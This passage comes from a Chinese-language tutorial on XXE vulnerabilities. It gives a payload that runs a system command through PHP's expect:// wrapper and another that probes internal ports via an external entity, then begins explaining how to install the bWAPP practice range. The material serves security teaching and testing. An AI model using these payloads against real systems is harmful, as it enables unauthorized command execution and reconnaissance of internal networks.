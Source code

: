 ## 2.2 执行系统命令
这种情况很少发生，但在配置不当/开发内部应用情况下（PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上），攻击者能够通过XXE执行代码。
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "expect://id">
]>

<hhh>&f;<hhh>
```
## 2.3 探测内网端口
可根据返回信息内容判断该端口是否打开。若测试端口返回“Connection refused”则可以知道该端口是closed的，否则为open。
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
	<!ENTITY Quan SYSTEM "http://192.168.246.136:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
# 3.测试方法
在进行手工测试之前先介绍几个测试XXE漏洞常用的靶场，包括靶场的安装、环境配置以及使用方法。

## 3.1 测试靶场介绍
### 3.1.1 PHP靶场－bWAPP
bwapp是一款非常好用的漏洞演示平台，包含有100多个漏洞。开源的php应用后台Mysql数据库。
#### 3.1.1.1 安装
BWAPP有两种安装方式，一种是单独安装，需部署在Apache＋PHP＋Mysql环境下；一种是虚拟机导入，下载后直接用VMWare打开即可。
下面分别介绍两种方式的安装方法。
1）单独安装
由于需要部署在`Apache＋PHP＋Mysql`环境下，我们可以直接使用集成环境，这里笔者使用的是PHPStudy，PHPStudy的安装及使用在此就不做介绍了。
（1）下载链接：
https://sourceforge.net/projects/bwapp/files/latest/download
（2）安装步骤：
Ａ．下载后解压文件，将文件放在WWW目录下
Ｂ．在admin/settings．php下更改数据库连接设置
![图片](assets/图片1.png)
